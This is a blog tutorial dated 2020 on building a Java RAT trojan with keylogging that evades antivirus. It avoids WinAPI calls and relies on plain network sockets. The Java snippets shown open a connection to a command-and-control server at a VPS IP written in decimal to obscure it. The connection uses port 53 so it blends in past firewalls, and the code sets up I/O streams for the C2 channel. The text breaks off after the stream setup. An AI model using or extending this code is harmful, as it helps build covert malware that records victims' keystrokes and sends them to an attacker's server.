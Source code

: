     background: rgba(64, 0, 0, .5);
}
body .gist .pl-mdh,
body .gist .pl-mdi {
    color: #a6e22e;
    font-weight: 400;
}
body .gist .pl-ib,
body .gist .pl-id,
body .gist .pl-ii,
body .gist .pl-iu {
    background: #a6e22e;
    color: #272822;
}

</style>   

<i>**06 August, 2020** — [Go back to homepage](../)</i>
# Evading AV with Network Sockets / Java SE

RAT trojans typically use WinAPI functions for injecting malicious shellcode in memory (RAM) which is then executed. While there are numerous methods of evading anti-malware or EDR solutions for such RATs that reside in disk using techniques such as partial code encryption, they can still be caught during runtime as a result of vendors using behaviour analysis through machine learning for exploit prevention. Such controlls are difficult to bypass, however, instead of leveraging WinAPI calls, sometimes simplicity is key.

A network socket is an endpoint of a two-way communication (TCP or UDP), identified by an IP address and a port number, which is used to send or receive data within a node on a computer network (could be LAN, WAN). They have a wide range of use cases, usually in a client-server architecture such as basic chat applications. A lot of programming languages implement libraries for programming sockets, and in this case, I will be using Java considering that it can be complied to bytecode in almost all operating systems which have JVM. Furthermore, its compile logic makes most of the Java applications seem legitimate, such as our case in programming a RAT trojan with a simple keylogging capability.

Unfortunately, in comparison with Python, Java requires more lines of code for using sockets. For demonstration purposes, I will be using one of my VPS servers as the listener IP address of `91.92.136.11`, which can be written in decimal format as `"1532790795"` thanks to [IP-Obfuscator.py](https://github.com/C-REMO/Obscure-IP-Obfuscator):

{% highlight java %}
Socket s = new Socket("1532790795", 53);
{% endhighlight %}

This will initiate a communication channel with the CNC server, so you need a listener program such as netcat (for the sake of demonstration) operating in port 53 – a common port found in malware as it is mainly allowed in firewalls and typically not scrutinized enough from a security perspective. Sockets in Java also require input and output streams for basic I/O operations, as well as `PrintWriter()` and `BufferedReader()` to properly write outward data.

{% highlight java %}
InputStream i = s.getInputStream();
OutputStream o = s.getOutputStream();
PrintWriter pw = new PrintWriter(o, true);
BufferedReader rr = new BufferedReader(new InputStreamReader(i));
{% endhighlight %}
